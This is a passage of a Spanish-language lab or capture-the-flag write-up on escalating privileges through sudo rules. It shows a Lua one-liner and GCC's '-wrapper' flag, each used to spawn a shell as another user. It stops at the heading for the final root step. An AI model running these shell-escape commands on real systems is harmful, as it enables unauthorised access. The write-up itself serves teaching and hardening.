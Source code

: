 **Desglose**:

- `-u fred`: El comando se ejecutará como `fred`.
- `/usr/bin/lua`: Se invoca el intérprete Lua.
- `-e 'os.execute("/bin/sh")'`: Se le pasa un código embebido que ejecuta `/bin/sh`

### Riesgo operativo

El problema no es solo Lua. El patrón es claro: **dar acceso a binarios interpretados mediante `sudo` es un vector de escalada de privilegios inmediato**. Un atacante con conocimientos básicos puede encadenar shells y moverse lateralmente con facilidad.

## Escalada de `fred` → `scooby`

Esta vez, el binario que se nos permite ejecutar es:

```bash
sudo -l 
Matching Defaults entries for fred on c12adce9f850:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User fred may run the following commands on c12adce9f850:
    (scooby) NOPASSWD: /usr/bin/gcc
```

Esto puede parecer inofensivo a primera vista: **¿qué daño puede causar un compilador?**

### GCC como vector de ataque

**GCC (GNU Compiler Collection)** es un compilador, pero al igual que otros binarios del sistema, puede ser **abiertamente abusado** si se le permite correr con privilegios. En este caso, lo más peligroso es el flag `-wrapper`.

#### ¿Qué hace `-wrapper`?

El flag `-wrapper` le dice a `gcc` que, en lugar de usar su binario interno para compilar, use un **programa externo personalizado**, que puede ser cualquier ejecutable.

```bash
sudo -u scooby /usr/bin/gcc -wrapper /bin/sh,-s .
whoami
scooby
```

**Explicación**:

- `-wrapper /bin/sh,-s`: Reemplaza el compilador con una shell interactiva.
- `.`: No importa el archivo fuente, ya que no se compila nada realmente.

### Conclusión

Permitir a un usuario ejecutar `gcc` con `sudo` es tan peligroso como permitirle ejecutar directamente `/bin/sh`. Es una forma encubierta de otorgar acceso total al sistema.

---
## Escalada final de `scooby` → `root`
